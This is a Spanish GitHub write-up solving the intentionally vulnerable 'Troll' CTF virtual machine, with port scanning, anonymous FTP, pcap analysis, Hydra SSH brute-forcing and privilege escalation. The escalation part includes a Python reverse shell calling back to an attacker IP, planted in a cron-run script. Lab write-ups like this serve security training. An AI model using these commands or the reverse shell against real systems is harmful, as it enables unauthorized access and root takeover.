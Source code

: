 # Troll1

![imagen](https://github.com/90l3m0np13/Troll1/blob/main/Portada_LoL.jpeg)



# Resolución de la Máquina Troll

Este documento describe el proceso paso a paso para resolver la máquina virtual "Troll". A continuación, se detallan las acciones realizadas para identificar vulnerabilidades, explotarlas y obtener acceso como usuario root.

---

## 1. Escaneo Inicial

Realizamos un escaneo de la red para identificar la IP de la máquina, los puertos abiertos y los servicios en ejecución.

```bash
nmap -sV -p- <IP_de_la_máquina>
```

### Puertos y Servicios Abiertos:
- **21/tcp**: FTP (vsftpd 3.0.2)
- **22/tcp**: SSH (OpenSSH 6.6.1p1)
- **80/tcp**: HTTP (Apache httpd 2.4.7)

---

## 2. Identificación de Vulnerabilidades

Exploramos posibles vulnerabilidades en los servicios identificados, consultando bases de datos como [CVE](https://cve.mitre.org/).

---

## 3. Acceso al Servicio FTP

Accedemos al servicio FTP utilizando el usuario `anonymous` sin contraseña.

```bash
ftp <IP_de_la_máquina>
```

### Archivo Encontrado:
- **lol.pcap**: Un archivo de captura de red que analizamos con Wireshark.

---

## 4. Análisis del Archivo `lol.pcap`

Descargamos el archivo `lol.pcap` a nuestra máquina local y lo abrimos con Wireshark.

```bash
get lol.pcap
```

### Pista Encontrada:
- En una transferencia de FTP-DATA, encontramos un nombre de usuario: `sup3rs3cr3tdirlol`.

---

## 5. Exploración del Servicio Web

Accedemos a la ruta web asociada al usuario encontrado:

  ![imagen](https://github.com/90l3m0np13/Troll1/blob/main/LoL.png) 
```
http://<IP_de_la_máquina>/sup3rs3cr3tdirlol
```

### Archivo Descubierto:
- **roflmao**: Un archivo oculto que contiene la pista `Find address <Pista>`.

---

## 6. Enumeración de Usuarios y Contraseñas

En la misma ruta web, encontramos dos carpetas:

1. **good_luck**: Contiene un listado de usuarios registrados en la máquina.
2. **this_folder_contains_the_password**: Contiene un archivo con una posible contraseña.

### Uso de Hydra:
Utilizamos Hydra para probar la contraseña encontrada con los usuarios listados.

```bash
hydra -L users.txt -p "contraseña_encontrada" <IP_de_la_máquina> ssh
```

---

## 7. Acceso SSH

Una vez identificado el usuario válido, accedemos a la máquina mediante SSH.

```bash
ssh "usuario"@<IP_de_la_máquina>
```

---

## 8. Escalada de Privilegios

### Método 1: Explotación de un Script Python

1. Identificamos un script en Python (`cleaner.py`) que se ejecuta periódicamente y es modificable.
2. Insertamos una reverse shell en el script.

```python
# Reverse Shell en Python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP_atacante>",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

3. Ponemos en escucha Netcat en nuestra máquina.

```bash
nc -lvp 4242
```

4. Cuando el script se ejecute, obtendremos una shell como root.

### Método 2: Uso de un Exploit de Escalada de Privilegios

1. Buscamos un exploit para la versión de Ubuntu de la máquina.
2. Compilamos y ejecutamos el exploit.

```bash
gcc exploit.c -o exploit
./exploit
```

---

## 9. Obtención de la Flag

Una vez como root, buscamos el archivo `proof.txt` que contiene la flag.

```bash
ls /root
cat /root/proof.txt
```

---

## Referencias

- [Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)
- [Exploit Database](https://www.exploit-db.com)



